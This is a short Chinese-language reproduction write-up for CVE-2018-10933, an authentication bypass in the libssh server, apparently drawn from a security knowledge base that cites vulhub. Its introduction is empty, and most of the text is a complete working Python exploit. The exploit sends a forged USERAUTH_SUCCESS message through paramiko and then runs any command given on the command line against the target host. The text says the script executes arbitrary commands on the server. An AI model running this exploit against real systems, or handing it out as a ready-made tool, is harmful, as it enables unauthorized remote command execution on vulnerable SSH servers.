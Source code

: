（CVE-2018-10933）Libssh 服务端权限认证绕过漏洞
===============================================

一、漏洞简介
------------

二、漏洞影响
------------

libssh的server-side state machine 0.7.6之前版本和0.8.4

三、复现过程
------------

    CVE-2018-10933.py
    #!/usr/bin/env python3
    import sys
    import paramiko
    import socket
    import logging

    logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
    bufsize = 2048


    def execute(hostname, port, command):
        sock = socket.socket()
        try:
            sock.connect((hostname, int(port)))

            message = paramiko.message.Message()
            transport = paramiko.transport.Transport(sock)
            transport.start_client()

            message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
            transport._send_message(message)

            client = transport.open_session(timeout=10)
            client.exec_command(command)

            # stdin = client.makefile("wb", bufsize)
            stdout = client.makefile("rb", bufsize)
            stderr = client.makefile_stderr("rb", bufsize)

            output = stdout.read()
            error = stderr.read()

            stdout.close()
            stderr.close()

            return (output+error).decode()
        except paramiko.SSHException as e:
            logging.exception(e)
            logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")
        except socket.error:
            logging.debug("Unable to connect.")

        return None


    if __name__ == '__main__':
        print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))

使用python3执行，即可在目标服务器上执行任意命令：

![2.png](./resource/(CVE-2018-10933)Libssh服务端权限认证绕过漏洞/media/rId24.png)

参考链接
--------

> https://vulhub.org/\#/environments/libssh/CVE-2018-10933/
